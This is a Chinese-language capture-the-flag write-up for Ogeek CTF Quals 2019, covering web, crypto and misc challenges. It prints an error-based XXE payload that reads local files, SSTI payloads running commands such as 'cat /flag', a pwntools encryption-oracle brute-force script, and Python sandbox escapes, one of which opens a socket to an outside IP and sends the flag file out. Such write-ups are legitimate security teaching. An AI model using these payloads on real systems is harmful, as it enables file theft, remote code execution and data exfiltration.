 ```yaml
---
title: Ogeek CTF Quals 2019 Writeup
categories: CTF&AWD
tags:
  - writeup
abbrlink: 45148
date: 2019-08-26 01:38:28
---
```


## 写在之前

周末打了这个比赛,趟大佬的车,混到第六.如果不是我这么菜,有机会第四或第三的.

如此简单的web题都解不了,丢人(捂脸

感谢比赛过程中队内各位大佬给的各种提示.

以下writeup仅是我自己能解的题或参与解的题.

<!--more-->

## WEB

### LookAround 

F12查看源码发现一个文件名奇怪的js,功能是定时发送请求.

请求内容比较奇怪,猜测就是考点,xxe了.

随便改了下xml,就发生500报错.

尝试了下常见的payload,猜测逻辑,如果xml合法则无返回,xml异常则500报错.

队内师傅提醒之下,找到关键点

![img](/1.png)

[exploiting-xxe-with-local-dtd-files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

文章里给的payload

![1566745929599](/2.png)

文件不存在,那就找一个linux系统默认存在的,直接去linux全局文件搜索

![1566746070866](/1566746039967.png)

找一个可以用的,报错xxe成功获取flag

最终payload如下

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % condition 'aaa)>
        aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

### render

随便测试了一下,发现[[9*9]]中的内容被执行了输出了49.

搭配题目名字render,SSTI没跑了.

网上搜索发现了几个可用的payload

<https://www.4hou.com/vulnerable/9779.html>

`[[${T(java.lang.System).getenv()}]]`

![1566747041625](/1566747041625.png)

执行命令:

`${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}`

但是没有回显,测试了`nc,curl,wget`都弹不出来.不熟悉java.

然后队内师傅提示,直接读文件.

`[[${new java.io.BufferedReader(new [java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec("cat /flag").getInputStream())).readLine()}]]`

或

`[[${new java.io.BufferedReader(new [java.io.FileReader("/flag")).readLine()}]]`

### Easy Realworld Challenge 

比赛的时候没做出来,卡在FTP读文件,时间上差了一点,有机会第四,还是我太菜了.

题解明天再整

## Crypto

### babycry

常见套路,第一次爆破flag前7位需要手动改一下,懒得写一键脚本了.第七位到最后爆破的脚本如下:

```
from pwn import *
flagkey="1234567890qwertyuiopasdfghjklzxcvbnm{}-_"
flag=''

def conn ():
    global  r
    r = remote("139.9.222.76",19999)
    r.recv()

    #r.sendline("1"*pad)
    return r


def cut_text(text,lenth):
    textArr = re.findall('.{'+str(lenth)+'}', text)
    textArr.append(text[(len(textArr)*lenth):])
    return textArr

def get(conn,s):
	conn.sendline('des '+s)
	return cut_text(conn.recv(),16)[:-1]


def fuck():
	r = conn()
	f = 'flag{c0'
	for k in range(1,5):
		pad = 0

		for j in range(8):
			padding='0'*(8-pad)

			stand = get(r,padding)[k]
			for i in flagkey:
				stand2 = get(r,padding+f+i)[k]

				if stand == stand2:
					pad = pad + 1
					f = f + i
					print f
					break
			
fuck()
#flag{c0ngratul4tions_1_y0uve_chec7ed_1n_ogeek}


```

## MISC

### pybox

绕过思路和ciscn的一样,就是没回显

`__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep 4')`

那就弹,又是`nv,curl,wget`都试一遍,无果

看提示,cut,sleep,那就是时间盲注了

` __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('sleep $(ca'+'t /home/flag|cut -c1|tr f 4)')`

但是tr被过滤了,尝试别的方法替换字符串.

```
__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')("export str=\`tac /home/flag\`;str=${str:0:1};str=${str/f/2} && sleep $str ")  
```

不知道为什么只有通配符能替换,ascii1-256都不行,无果

又是队内大佬提示

```shell
s=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('socket').__getattribute__('socket')()
s.connect(('111.111.111.111', 11111))
p=__import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('popen')('cut -c 1-64 flag')
s.send(p.read())
```

感觉这是非预期解了